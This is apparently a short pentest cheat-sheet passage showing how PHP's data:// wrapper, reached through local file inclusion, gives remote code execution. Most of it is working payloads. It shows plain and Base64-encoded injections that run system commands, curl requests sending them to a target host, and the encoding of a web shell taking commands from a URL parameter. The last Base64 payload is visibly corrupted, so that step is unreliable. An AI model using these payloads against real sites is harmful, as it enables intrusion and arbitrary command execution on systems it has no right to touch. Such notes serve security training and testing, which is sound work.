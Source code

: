 
### **⚙️ `data://`**

- Used to **embed and execute PHP code** directly via LFI.
- Accepts plain or Base64-encoded content.
- Useful when **no writable file** exists for code injection.

**Example (plain):**

```php
?page=data://text/plain,<?php echo system('ls'); ?>
```

**Example (Base64):**

```php
?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJ2xzJyk7Pz4=
```

⚠️ Requires `allow_url_include` to be enabled in `php.ini`.

We can use it for obtaining RCE:
```
curl "http://asd.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```

```
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
```

```
curl "http://asd.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeasdW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

